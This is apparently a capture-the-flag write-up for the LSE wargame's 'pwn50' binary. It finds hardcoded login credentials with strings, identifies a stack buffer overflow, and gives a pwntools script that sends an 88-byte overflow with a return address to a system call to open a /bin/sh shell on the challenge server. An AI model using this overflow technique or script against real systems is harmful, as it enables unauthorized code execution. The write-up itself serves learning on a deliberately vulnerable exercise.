LSE Challenge Link: https://ctf.lse.epita.fr/ex/55/ (a copy is in the current repository as well)

This challenge was part of the online wargame linked above and  was relatively easy to complete but provided a good review of the fundamentals. 

To start off we check the file headers on the binary,



We can see that the file isn't stripped which makes this challenge less cumbersome. 
Next we check the properties of the binary. 



Hmm, no ALSR but can't really tell much from here. Let's run the binary to see what this challenge is about.



Ah we need a username, well before we dive into the assembly, lets see if we can get the username and password
an easier way. By running strings. 



Huh, admin and T6OBSh2i look interesting. Let's try those.



Great we are in. Lets see what this binary can do.





Hmmmm, seems like we can't execute commands. Time to dive into the binary. 
Running radare2 on the binary we can see some interesting functions



Lets check out the execcmd function.



Huh, interesting. There doesn't seem to be a way of running systems, dword[local_4h] is set to 0 at the beginning of the 
function and there isn't a way to change it. Seems like we need to find another way in. Since this challenge is only 50 points, let's try some common vunerablities. Let's enter a lot of characters for the read function. 



This looks promising. It places our large input on the stack and you can see that it overwrites RSP and RBP as well as RSI.
Let's try exiting the program to see what happens, since the return value is on the stack when we exit it should segfault. 



Ah, just as we thought it segfaulted. Now we have the ability to execute code. To get the flag we need the return function
to jump to the system function call and get us a shell. Well, we can find the address of system in gdb and use that address 
appended onto an offset to jump to the system call. 

Here is the system call



And here is the size of the buffer



And it looks like the offset should be around 0x50 which is around 80 characters, adding 4 for ebp and 4 for esp, it should be
an offset of 88. But wait, we need to remember that the system call takes a string arguement to run when called. We need to set up the system stack with our shell command, in this case /bin/sh, so that when we call it that command will run. 

This leads to the following python code

```
#LSE Pwn50 

from pwn import *

#p = process ('./pwn50')

p = remote('ctf.lse.epita.fr',52190)

p.recv()
p.sendline('admin')

p.recv()
p.sendline('T6OBSh2i')

p.recv()
p.sendline('1')

p.recv()
p.sendline('/bin/sh')

p.recv()
p.sendline("A"*88 + p64(0x0040084f))

p.recv()
p.sendline('3')

p.interactive()

```

Hope this was informative


